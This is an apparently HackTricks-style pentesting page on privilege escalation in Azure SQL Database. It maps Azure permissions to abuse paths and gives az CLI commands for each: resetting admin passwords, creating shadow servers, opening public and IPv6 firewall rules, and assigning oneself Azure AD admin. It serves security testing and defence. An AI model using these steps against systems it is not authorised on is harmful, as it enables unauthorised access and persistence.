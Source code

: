 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/write"

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_password>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

### "Microsoft.Sql/servers/firewallRules/write"

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### ""Microsoft.Sql/servers/ipv6FirewallRules/write"

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### "Microsoft.Sql/servers/administrators/write" && "Microsoft.Sql/servers/administrators/read"

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### "Microsoft.Sql/servers/azureADOnlyAuthentications/write" && "Microsoft.Sql/servers/azureADOnlyAuthentications/read"

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

{{#include ../../../banners/hacktricks-training.md}}




